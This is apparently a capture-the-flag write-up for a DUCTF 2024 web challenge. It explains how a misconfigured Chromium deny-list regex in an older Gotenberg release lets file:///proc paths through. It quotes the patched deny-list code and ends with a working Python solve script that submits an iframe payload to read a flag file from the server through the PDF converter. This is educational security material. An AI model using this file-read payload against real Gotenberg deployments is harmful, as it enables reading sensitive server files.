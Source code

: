 ```yaml
---
created: 2024-07-05T20:39
updated: 2024-07-07T05:42
title: hah_got_em
---
```


## Analysis
The docker image is fixed at `gotenbergv8.0.3`, I wonder why...
![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1720298973/2024/07/ec4bad9f49946fcd2204722dbbd5564c.png)

Turns out there's a security update right after.

After looking through the patch, I found the following lines that were removed.

```go
CHROMIUM_DENY_LIST="^file:///[^tmp].*"

if !b.arguments.allowList.MatchString(url) {
    return fmt.Errorf("'%s' does not match the expression from the allowed list: %w", url, ErrUrlNotAuthorized)
}

if b.arguments.denyList.String() != "" && b.arguments.denyList.MatchString(url) {
    return fmt.Errorf("'%s' matches the expression from the denied list: %w", url, ErrUrlNotAuthorized)
}
```

It appears that the regex was misconfigured and would allow any path that starts with either `t` `m` or `p`.
## Attack
To access `/etc/flag.txt` with a url starting with any character in `[tmp]`, the first thing that came to mind was `proc`.

So I used the docker shell and looked for flag.txt.

```sh
ls proc/*/*/*/* | grep flag.txt
```

```txt
...
proc/26/cwd/etc/flag.txt
proc/26/cwd/tmp/flag.txt
proc/26/root/etc/flag.txt
proc/26/root/tmp/flag.txt
proc/66/root/etc/flag.txt
proc/66/root/tmp/flag.txt
proc/7/root/etc/flag.txt
proc/7/root/tmp/flag.txt
proc/70/root/etc/flag.txt
proc/70/root/tmp/flag.txt
proc/71/root/etc/flag.txt
...
```

Wow, there's a lot of them, so I picked `pid=7` because I liked the number.

## Solve Script

```python
import requests
import io
import fitz
file_content = """
<iframe src="file:///proc/7/root/etc/flag.txt"></iframe>
"""
file_path = "index.html"

payload = io.BytesIO(file_content.encode('utf-8'))

url = "https://web-hah-got-em-20ac16c4b909.2024.ductf.dev/forms/chromium/convert/markdown"

files = {"html": (file_path, payload), "md": ("dummy.md", payload)}
response = requests.post(url, files=files)
if 'application/pdf' not in response.headers['Content-Type']:
    print(response.text)
    exit()
print(response.status_code)
pdf_bytes = io.BytesIO(response.content)
pdf_document = fitz.open(stream=pdf_bytes, filetype="pdf")
all_text = ""
for page_num in range(len(pdf_document)):
    page = pdf_document.load_page(page_num)
    all_text += page.get_text()
print(all_text)
```

